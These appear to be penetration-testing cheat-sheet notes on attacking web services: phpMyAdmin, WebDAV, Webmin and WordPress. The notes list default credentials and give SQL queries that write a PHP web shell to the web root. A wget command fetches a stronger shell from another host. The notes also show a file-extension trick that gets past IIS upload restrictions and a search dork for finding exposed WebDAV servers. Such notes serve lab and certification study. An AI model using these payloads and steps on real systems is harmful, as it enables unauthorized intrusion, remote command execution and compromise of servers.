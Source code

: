 - Phpmyadmin
      Default credentials
      root <blank>
      pma <blank>
  - If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.
    - You go to: <http://192.168.1.101/phpmyadmin/>
    - Then click on SQL.
    - Run SQL query/queries on server "localhost":
    - From here we can just run a sql-query that creates a php script that works as a shell So we add the following query:

      `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"`

    - For linux:

      `SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"`
    - The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell. We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.
  - Download a better shell
  - On linux-machines we can use wget to download a more powerful shell.
    `?cmd=wget%20192.168.1.102/shell.php`
  - On windows-machines we can use **tftp**.

- Webdav
Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this: `cadaver 192.168.1.101/webdav`
Then sign in with username and password. The default username and passwords on xamp are:

> Username: wampp
> Password: xampp

Then use put and get to upload and download. With this you can of course upload a shell that gives you better access. If you are looking for live examples just google this: `inurl:webdav site:com`
Test if it is possible to upload and execute files with webdav.

`davtest -url <http://192.168.1.101> -directory demo_dir -rand aaaa_upfileP0C`

If you managed to gain access but is unable to execute code there is a workaround for that! So if webdav has prohibited the user to upload `.asp` code, and `pl` and whatever, we can do this:

- upload a file called `shell443.txt`, which of course is your `.asp` shell.
- And then you rename it to `shell443.asp;.jpg`. Now you visit the page in the browser and the asp code will run and return your shell.
- References <http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf>

- Webmin
      Webmin is a webgui to interact with the machine.
      The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

- Wordpress
      `sudo wpscan -u <http://cybear32c.lab>`
      If you hit a 403. That is, the request if forbidden for some reason. Read more here: <https://en.wikipedia.org/wiki/HTTP_403>
      It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent. You can of course also define a specific agent if you want that. But random-agent is pretty convenient.
